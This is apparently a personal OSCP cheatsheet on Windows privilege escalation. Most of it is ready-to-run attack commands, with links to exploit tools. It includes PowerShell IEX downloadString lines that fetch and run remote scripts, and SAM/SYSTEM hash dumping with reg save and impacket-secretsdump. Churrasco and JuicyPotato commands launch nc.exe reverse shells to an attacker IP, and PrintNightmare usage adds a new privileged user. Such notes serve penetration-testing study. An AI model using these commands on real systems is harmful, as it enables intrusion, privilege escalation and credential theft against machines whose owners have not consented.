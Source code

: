 ```yaml
---
title: Windows Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```


/// To be tested:
###### Start Process with PowerShell
```
How to use powershell to pop a second shell
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')"


Starting a shell as Administrator (when the permissions are right)

First: make a variable of the password.
Because windows doesnt like it when you pass passwords in plain text to a command.
> $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Pop the shell:
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')" -Credential $cred
```


###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

###### Token Kidnapping on Windows Server 2003 / 2008 with Churrasco

```
If you are Network Service or Local Service and SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Port Forwarding
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Schtasks
```
schtasks /query /fo LIST /v
tasklist /SVC
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Windows (Kernel) Exploits
```
MS10-059 (SecWiki)
MS11-046 (SecWiki)
MS16-032 (Use the one from Empire)
MS15-051 (SecWiki)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```
